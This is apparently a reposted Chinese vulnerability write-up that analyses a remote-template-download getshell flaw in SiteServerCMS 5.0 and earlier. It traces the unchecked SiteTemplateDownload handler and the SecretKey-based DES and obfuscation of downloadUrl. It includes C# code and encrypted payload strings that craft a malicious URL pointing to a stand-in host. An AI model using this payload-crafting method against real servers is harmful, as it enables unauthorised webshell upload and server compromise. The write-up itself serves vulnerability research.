 # SiteServerCMS-Getshell-
SiteServerCMS 5.0远程模板下载Getshell漏洞

Author:1u0hun

From:https://www.freebuf.com/articles/web/195105.html

0x00 漏洞概述<br>
通过了解，得知被攻击的网站使用的是siteserver cms，为开源免费cms框架，官网https://www.siteserver.cn/，捕获到的“0 day”是通过远程模板下载getshell，漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀
<br>
0x01 漏洞分析<br>
可以看到利用的是ajaxOtherService.cs中的SiteTemplateDownload功能模块，使用notepad++搜索到该功能模块如下。发现在ajaxOtherService.cs文件中确实存在函数调用接口SiteTemplateDownload(stringdownloadUrl, string directoryName, string userKeyPrefix)image.png
<br>
其中downloadUrl就是远程文件的URL地址，directoryName是下载到本地之后命名的模板目录，userKeyPrefix是加密的密钥，继续审核此文件，整理出整个函数调用流程如下，首先在AjaxOtherService.cs文件中使用Page_Load函数负责加载整个页面，然后通过request[‘type’]获取到不同的操作类型，如果获取到的type为TypeSiteTemplateDownload ，就会执行其request参数值的相关功能，其中最重要的一步操作就是此时先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。 image.png
<br>
在AjaxOtherService类中通过常量中已经定义了TypeSiteTemplateDownload = “SiteTemplateDownload”;image.png
<br>
因此当type等于SiteTemplateDownload时就会调用SiteTemplateDownload函数，逻辑非常的清楚，接下来分析downloadurl到底是怎么解密的，这也是本次审计的重点，毕竟其他逻辑非常清楚了，通过调用TranslateUtils.DecryptStringBySecretKey函数进行解密，通常开发习惯就是类名与文件名基本保持一致，因此很容易找到该文件image.png
<br>
通过分析源代码可知，这里将DecryptStringBySecretKey函数进行重载，在调用DecryptStringBySecretKey(string inputString)时候，实际上调用的是下面带secretKey的同名函数DecryptStringBySecretKey(stringinputString, string secretKey)，分析该函数其中secretKey是取自WebConfigUtils.SecretKey的值，通过审计WebConfigUtils.cs文件可知，该值是从配置文档web.config中取得对应字段值。SecretKey的值可以在web.config文件中找到。
<br>
image.png
<br>
解密函数DecryptStringBySecretKey(string inputString, string secretKey)中secretKey的参数值同样为WebConfigUtils.SecretKey的值,继续分析该函数，可以看到先进行了混淆字符，将字符“+=&?’/”替换成DES加密后的密文。image.png
<br>
这里使用python脚本去除混淆，恢复原DES密文。image.png
<br>
程序去除混淆之后调用DES模块并实例化encryptor对象调用DesDecrypt解密函数，在实例化对象时将inputString和secreKey传入。使用菜鸟教程http://www.runoob.com/调试运行下核心的加解密代码传入参数_encryptKey和_inputString加密代码调试如下_inputString传入任意黑客构造的地址，_encryptKey传入密钥。
<br>
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "http://127.0.0.1:99/txt2.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
f1.png
<br>
执行之后获取其加密downloadurl如下：ZjYIub/YxA3QempkVBK4CoiVo3M607H/TBf7F0aPcUE=， 使用python代码混淆该url，得到最后利用的downloadurlf2.png
<br>
混淆之后的downloadurl为：ZjYIub0slash0YxA3QempkVBK4CoiVo3M607H0slash0TBf7F0aPcUE0equals00secret0，解密的步骤与加密相反，首先将混淆后的下载地址去除混淆。去混淆py代码去混淆后密文如下：
<br>
ZjYIub/YxA2nYLIZNDeUmdd3GBhwbuBXI4s2bpH2CVmtg2H/QGZ4+ZW0iiVbi/MDytVnpZKliDw=，
<br>
解密函数调试如下，传入_inputString和密钥 
f3.png
<br>


